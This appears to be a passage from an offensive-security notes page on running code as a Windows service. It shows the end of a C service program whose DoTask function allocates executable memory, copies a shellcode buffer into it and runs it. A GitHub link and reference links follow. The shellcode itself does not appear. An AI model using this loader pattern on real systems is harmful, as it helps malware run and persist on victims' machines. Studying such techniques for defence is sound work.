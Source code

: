 ```text
	serviceStatus.dwWaitHint = 3000;

	bRet = SetServiceStatus(g_ServiceStatusHandle, &serviceStatus);
	return bRet;
}

void DoTask()
{

	if (bOnce == FALSE)
	{
		bOnce = TRUE;
		LPVOID Memory = VirtualAlloc(NULL, sizeof(buf), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
		memcpy(Memory, buf, sizeof(buf));
		((void(*)())Memory)();
	}
}
```

github:[https://github.com/idiotc4t/SimpleService.git](https://github.com/idiotc4t/SimpleService.git)

![](../.gitbook/assets/image%20%2825%29.png)

## LINKS

{% embed url="https://www.cnblogs.com/lgxZJ/p/7440116.html" %}



{% embed url="https://docs.microsoft.com/en-us/windows/win32/ad/installing-a-service-on-a-host-computer" %}

{% embed url="https://payloads.online/archivers/2020-04-02/1\#0x05-%E7%BC%96%E5%86%99%E6%9C%8D%E5%8A%A1%E7%A8%8B%E5%BA%8F" %}

{% embed url="https://www.cnblogs.com/hbccdf/p/3491641.html" %}



